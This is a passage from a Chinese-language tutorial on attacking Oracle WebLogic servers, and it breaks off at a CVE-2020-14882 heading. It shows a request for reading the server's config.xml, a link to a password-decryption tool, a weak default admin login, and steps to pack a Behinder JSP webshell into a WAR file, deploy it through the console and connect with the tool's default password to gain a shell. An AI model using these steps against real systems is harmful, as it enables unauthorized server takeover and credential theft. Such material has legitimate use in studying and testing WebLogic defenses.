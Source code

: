 ```
http://yourIP:7001/hello/file.jsp?path=config/config.xml
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

下载工具进行解密

(下载地址:https://github.com/TideSec/Decrypt_Weblogic_Password)

使用其中的工具5进行解密

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

**2.后台上传getshell**

    1.使用解密后的账号密码登录后台，weblogic常见的弱密码

```
`https://cirt.net/passwords?criteria=weblogic` `这里使用 用户名:weblogic 密码:Oracle@123 登录`
```

    2.进入后台后点击左边的部署，找到可以上传文件的地址

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

    3.生成一个war包

        war是一个可以直接运行的web模块，通常用于网站，打成包部署到容器中。war包放置到web目录下之后，可以自动解压，就相当于发布了。简单来说，war包是JavaWeb程序打的包，war包里面包括写的代码编译成的class文件，依赖的包，配置文件，所有的网站页面，包括html，jsp等等。一个war包可以理解为是一个web项目，里面是项目的所有东西

        这里使用冰蝎里面自带的jsp一句话生成war马

```
jar -cvf shell.war shell.jsp
```

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

        生成war后将war马部署上去

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

    4.使用冰蝎进行连接(默认密码为rebeyond)，成功getshell

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

**CVE-2020-14882**

**漏洞简述**
